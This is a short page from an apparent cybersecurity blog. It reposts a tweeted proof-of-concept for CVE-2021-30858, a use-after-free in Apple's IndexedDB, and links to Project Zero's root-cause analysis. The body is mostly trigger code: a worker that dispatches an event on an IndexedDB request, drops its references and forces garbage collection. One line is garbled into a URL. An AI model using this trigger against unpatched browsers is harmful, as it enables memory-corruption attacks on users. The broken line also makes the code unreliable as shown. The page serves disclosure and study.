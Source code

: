 ---
layout: ../../templates/cybersec_page.astro
title: Apple's IndexDB Has A Tweetable Exploit
direct_link: https://googleprojectzero.github.io/0days-in-the-wild/0day-RCAs/2021/CVE-2021-30858.html
---

By [@maddiestone](https://twitter.com/maddiestone/status/1486402800103792645?s=21):

```js
index.html:
<script>w = new Worker('idbworker.js');</script>

idbworker.js:
function gc() {
   for (var i = 0; i < 1000; i++) { a = new Uint8Array(1024*1024); }
}

let ev = new Event('mine');
let req = http://indexedDB.open('db');
req.dispatchEvent(ev);
req = 0;
ev = 0;
gc();
```
